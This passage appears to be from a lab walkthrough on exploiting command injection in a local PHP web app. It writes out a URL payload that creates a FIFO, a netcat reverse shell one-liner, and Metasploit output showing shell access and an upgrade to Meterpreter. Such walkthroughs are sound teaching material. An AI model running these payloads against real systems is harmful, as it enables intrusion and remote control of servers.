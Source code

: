 
## Launching the reverse shell

Now to start a netcat reverse shell on the victim machine you have to do a janky workaround as the docker container is OpenBSD based,
so instead of normal netcat it has a more "secure" version without the `-e` or `-c` flags that we would usually use to pipe `/bin/bash` straight into it.

First, create a temporary FIFO pipe (pipeline) in /tmp by running `mknod /tmp/backpipe p` through command injection.
Go to the following link in your browser:

http://localhost:8081/account/documents?page=test|mknod%20/tmp/backpipe%20p

You don't need to double URL encode your special characters, the browser might hide from you that it does it automatically once though.
Next, you can start the reverse shell by running the following command (with your own IP address and port substituted):

```shell
/bin/sh 0</tmp/backpipe | nc <YOUR-HOST/ATTACKER-IP> 1337 1>/tmp/backpipe
```

Which in command-injected URL form looks something like:

http://localhost:8081/account/documents?page=test|/bin/sh%200%3C/tmp/backpipe%20|%20nc%20172.17.0.1%201337%201%3E/tmp/backpipe


This tab may look like it's loading forever in your browser because it makes a blocking request on the PHP server that doesn't release the thread until the reverse shell closes.

If you switch back to your reverse shell in Metasploit, you should see a new connection.
Try running a command such as id:

```
[*] Started reverse TCP handler on 172.17.0.1:1337 
[*] Command shell session 1 opened (172.17.0.1:1337 -> 172.17.0.2:60084) at 2023-12-28 20:55:33 -0500

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Upgrading to a Meterpreter session

To upgrade your basic generic TCP reverse shell to a Meterpreter shell, press Ctrl+Z to send that session to the background.
Then run the session upgrade command on the session you earlier opened:

```
msf6 exploit(multi/handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.17.0.1:4433 
[*] Sending stage (1017704 bytes) to 172.17.0.2
[*] Meterpreter session 2 opened (172.17.0.1:4433 -> 172.17.0.2:48016) at 2023-12-28 20:56:25 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
```
